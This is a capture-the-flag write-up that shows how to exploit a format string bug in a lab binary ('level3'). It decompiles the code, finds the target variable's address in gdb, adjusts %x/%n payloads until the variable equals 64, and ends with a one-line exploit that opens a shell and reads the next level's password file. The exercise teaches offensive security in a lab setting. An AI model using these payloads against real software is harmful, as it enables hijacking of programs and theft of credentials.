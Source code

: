 # Level 3

Here, we have a program reading on stdin again. But by decompiling the code, whe can see a fgets function reading 512 bytes and storing them in a buffer of 520. So... no overflow possible here.

```c
int m;

void v(void) {
  char buff [520];
  
  fgets(buff, 512, stdin);
  printf(buff);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 12, stdout);
    system("/bin/sh");
  }
  return;
}
```
**We can already see our goal here, the if statement with "m" and the value 64. If we can make "m" equal to 64, we win.** 

One line is in fact a little bit weird:
```c
printf(buff)
````
No format? Only one argument? Why?

Let's introduce our new exploit the **Format string attack**. This attack use this missuse of printf functions to interact with the memory. More precisely, we can use thoses threes format to play:
 - "%x" Read data from the stack
 - "%s" Read character strings from the memory
 - "%n" Write an integer to locations in the memory

An example:
```c
$ ./level3 <<< %d
512
```
Here, printf return the first value in the memory so it's working!

Let's try to modify "m" with this. For this we need the address of "m":
```sh
$ gdb -q ./level3 
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 

Breakpoint 1, 0x080484ad in v ()
(gdb) dissas
Undefined command: "dissas".  Try "help".
(gdb) disass
Dump of assembler code for function v:
	...
	0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
	0x080484cc <+40>:	lea    -0x208(%ebp),%eax
	0x080484d2 <+46>:	mov    %eax,(%esp)
	0x080484d5 <+49>:	call   0x8048390 <printf@plt>
	0x080484da <+54>:	mov    0x804988c,%eax
	0x080484df <+59>:	cmp    $0x40,%eax
	0x080484e2 <+62>:	jne    0x8048518 <v+116>
	...   
End of assembler dump.
```
We can see that 64 (0x40) is compared with the address 0x804988c, it's "m".

To modify the value, we have to use "%n" and we can play with "%x" and the field width to increment the value.

```sh
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%x%n
(gdb) x/d 0x804988c
0x804988c <m>:  23
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%100x%n
(gdb) x/d 0x804988c
0x804988c <m>:	115
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%80x%n
(gdb) x/d 0x804988c
0x804988c <m>:	95
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%50x%n
(gdb) x/d 0x804988c
0x804988c <m>:	65
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%49x%n
(gdb) x/d 0x804988c
0x804988c <m>:	64
(gdb) c
Continuing.
Wait what?!
```
As we saw, "m" is now equal to 64 and we run the shell. So the final command is: 
```sh
$ (echo $(printf "\x8c\x98\x04\x08")%x%x%49x%n; cat) | ./level3 
�200b7fd1ac0                                         b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```

Sources:<br>
[OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack) <br>
[Hacking - The Art of exploitation](https://www.amazon.fr/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)